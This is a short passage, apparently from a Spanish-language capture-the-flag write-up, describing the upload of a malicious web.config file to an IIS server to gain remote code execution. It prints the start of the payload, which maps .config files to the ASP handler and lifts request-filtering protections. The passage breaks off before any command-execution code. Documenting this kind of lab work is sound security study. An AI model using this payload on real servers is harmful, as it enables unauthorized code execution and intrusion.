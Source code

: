 ![image](/assets/images/ensala/1.png)

En [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services) podemos ver que tipo de ficheros podemos subir al servidor IIS. Vemos que entre los posibles tipos de ficheros esta el `.config` . En la misma web podemos encontrar un ejemplo que nos permite hacer ejecucion remota. Nos descargamos el fichero [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config) y lo subimos al servidor.

El fichero `web.config`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
```